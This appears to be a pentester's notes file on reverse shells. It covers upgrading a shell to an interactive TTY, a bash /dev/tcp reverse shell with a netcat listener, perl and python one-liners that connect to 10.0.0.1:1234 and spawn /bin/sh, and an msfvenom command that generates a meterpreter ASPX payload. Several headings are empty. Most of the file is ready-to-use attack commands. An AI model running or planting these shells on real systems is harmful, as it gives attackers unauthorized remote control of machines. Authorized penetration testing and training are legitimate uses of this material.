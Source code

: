 # shells

## Upgrading simple shells to interactive TTYs

```bash
pwned-box$ ^Z                     # suspend the process
host-machine$ echo $TERM          # get the terminal type
host-machine$ stty -a             # get the number of rows/cols
host-machine$ stty raw -echo      # convert terminal to raw
host-machine$ fg                  # re-open the reverse shell
pwned-box$ reset                  # reset the terminal of the reverse shell
pwned-box$ export SHELL=bash      # set the TTY settings: SHELL, TERM, and dimensions
pwned-box$ export TERM=screen
pwned-box$ stty rows <n_rows> cols <n_cols>
```

## reverse shells

### bash
- Tested using
  - Active machine: `Kali Linux 5.7.0`
  - Passive machine: `bash 5.1.4(1)-release` (Kali Linux vagrant box)
- Be sure that `bash` is in use, not `zsh`!

```
# set up netcat listener on active machine
nc -l -vvv -p (nc listener port)

# create reverse shell
# - bash -i :: start interactive bash shell
# - >&      :: redirect both stdout and stderr (fd 1 and 2)
# - /dev/tcp/ip/port :: bash specific syntax for TCP socket connection to ip:port
# - 0<&1    :: redirect fd 1 (connected to the socket) to stdin

bash -i >& /dev/tcp/(active machine)/(nc listener port) 0<&1
```

### perl (untested)

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python (untested)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP (untested)

### ruby (untested)

### netcat 

### java

### xterm

## msfvenom

### aspx

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```

## References
- [Pentestmonkey Reverse Shell Cheatsheet](http://web.archive.org/web/20180702062128/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse shell with bash](http://web.archive.org/web/20180625050916/http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [The TTY demystified](http://www.linusakesson.net/programming/tty/)
- [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [msfvenom cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
